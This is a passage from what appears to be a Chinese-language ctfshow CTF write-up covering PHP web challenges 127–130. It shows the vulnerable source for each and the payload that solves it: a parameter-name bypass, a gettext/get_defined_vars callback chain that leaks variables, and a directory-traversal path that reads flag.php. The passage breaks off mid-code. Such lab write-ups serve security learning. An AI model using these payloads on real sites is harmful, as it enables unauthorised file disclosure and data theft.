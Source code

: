 ```php

if($ctf_show==='ilove36d'){
    echo $flag;
}
```
payload：/?ctf show=ilove36d
算是一个小知识点了，经过测试发现ctf_show等同于ctf[show、ctf show、ctf.show、ctf+show，由于waf这里就只有空格可以用
## web128（gettext()拓展）
```php
<?php

error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}



function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
} NULL
```
小知识点： _()是一个函数
_()==gettext() 是gettext()的拓展函数，开启text扩展。需要php扩展目录下有php_gettext.dll
get_defined_vars()函数
get_defined_vars — 返回由所有已定义变量所组成的数组 这样可以获得 $flag
call_user_func — 把第一个参数作为回调函数调用，这也是为什么需要调用两次的原因
payload: ?f1=_&f2=get_defined_vars
## web129（目录穿越）
```php
<?php

error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
}
```
目录穿越，常规操作
payload：/?f=/ctfshow/../../../../../../../../var/www/html/flag.php
## web130（正则绕过）
```php
<?php

error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];

```